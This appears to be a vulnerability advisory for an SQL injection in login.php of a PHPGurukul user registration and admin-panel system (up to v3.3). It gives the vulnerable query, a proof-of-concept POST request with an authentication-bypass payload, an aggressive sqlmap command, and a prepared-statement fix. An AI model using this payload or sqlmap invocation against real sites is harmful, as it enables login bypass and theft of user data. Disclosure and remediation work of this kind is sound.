

#  Authentication Bypass via SQL Injection in `login.php` Using `uemail` and `password` POST Parameters in User Registration & Login and User Management System With Admin Panel ≤ v3.3

👨‍💻 **BUG Author:**  
4m3rr0r

📦 **Product Information:**  
- **Vendor Homepage:** https://phpgurukul.com  
- **Software Link:** [User Registration System](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)  
- **Affected Version:** <= 3.3  
- **Software Name:** User Registration & Login and User Management System With Admin Panel  


---

## 🛠 **Vulnerability Details**

### 🧨 **Vulnerability Type**
SQL Injection (CWE-89)

### 🧬 **Root Cause**
User-supplied input is directly embedded into a SQL query without proper sanitization or use of prepared statements.

```php
$ret = mysqli_query($con,"SELECT id,fname FROM users WHERE email='$useremail' and password='$dec_password'");
```

### ⚠️ **Impact**
- **Authentication Bypass**
- **Access to User Data**
- **Database Dumping**
- **Potential Remote Code Execution (via stacked queries if enabled)**

---

## 📋 **Description**
The login form in `login.php` accepts `uemail` and `password` via POST. The input is used unsafely in an SQL query, leading to a classic SQL Injection vulnerability. An attacker can bypass login authentication or dump the entire database using automated tools like `sqlmap`.

---

## 🔬 **Proof of Concept**

**URL:**  
`http://<target>/loginsystem/login.php`

**PoC Request:**
```http
POST /loginsystem/login.php HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded

uemail=test' OR '1'='1&password=irrelevant&login=Login
```

**sqlmap Usage:**
```bash
sqlmap -u "http://<target>/loginsystem/login.php" \
--data="uemail=test&password=test&login=Login" \
--risk=3 --level=5 --batch
```



**Injection Types Found:**
- Boolean-based blind
- Time-based blind

---

## 🛡 **Suggested Remediation**
Use **prepared statements** or **parameterized queries** to safely handle user input.

✅ Example Fix:
```php
$stmt = $con->prepare("SELECT id, fname FROM users WHERE email = ? AND password = ?");
$stmt->bind_param("ss", $useremail, $password);
$stmt->execute();
```

---

## 🔐 **Security Recommendations**
- Apply input validation and output encoding.
- Disable display of detailed SQL errors.
- Limit database privileges for web application users.
- Use Web Application Firewall (WAF).

---

## 📚 **References**
- https://owasp.org/www-community/attacks/SQL_Injection  
